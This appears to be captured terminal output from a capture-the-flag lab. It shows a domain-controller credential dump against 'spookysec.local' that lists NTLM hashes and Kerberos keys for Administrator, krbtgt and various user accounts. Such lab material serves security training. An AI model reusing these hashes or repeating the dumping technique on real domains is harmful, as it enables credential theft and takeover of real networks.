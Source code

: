 ```php
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                 
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::                                                                                                               
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::                                                                                               
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::                                                                                     
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::                                                                                               
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::                                                                                            
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::                                                                                         
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::                                                                                            
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::                                                                                                 
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::                                                                                               
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::                                                                                             
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::                                                                                            
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::                                                                                            
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::                                                                                           
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::                                                                                              
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                                                                                            
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:d8456f7fb6387ffe5f7b608ad58caa84:::                                                                                                    
[*] Kerberos keys grabbed                                                                                                                                                                     
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48                                                                                        
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae                                                                                                                        
Administrator:des-cbc-md5:2079ce0e5df189ad                                                                                                                                                    
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc                                                                                               
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902                                                                                                                               
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
```
